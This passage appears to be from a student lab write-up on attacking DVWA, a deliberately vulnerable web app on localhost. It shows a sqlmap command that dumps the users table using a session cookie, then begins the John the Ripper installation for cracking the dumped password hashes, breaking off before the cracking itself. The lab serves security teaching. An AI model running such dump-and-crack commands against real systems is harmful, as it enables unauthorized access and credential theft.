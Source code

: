 ```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=8i0tfhbnhtb8oe03hmukldr8n3; security=medium " --data="id=1&Submit=Submit" --batch -D dvwa -T users --dump
```

![image](https://github.com/user-attachments/assets/70f0eef2-adaa-4242-b3d2-279322f1da2b)


Retrun all columns and all row of table named users


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

## 1. Dowload John the Ripper


```bash
sudo apt-get install john
```
![image](https://github.com/user-attachments/assets/65108fed-599b-41b1-8439-885bfa231c6d)

Download successfully

![image](https://github.com/user-attachments/assets/f5bdf571-2e8c-40c4-b9f5-21599a900992)

Make format to use John the Ripper 





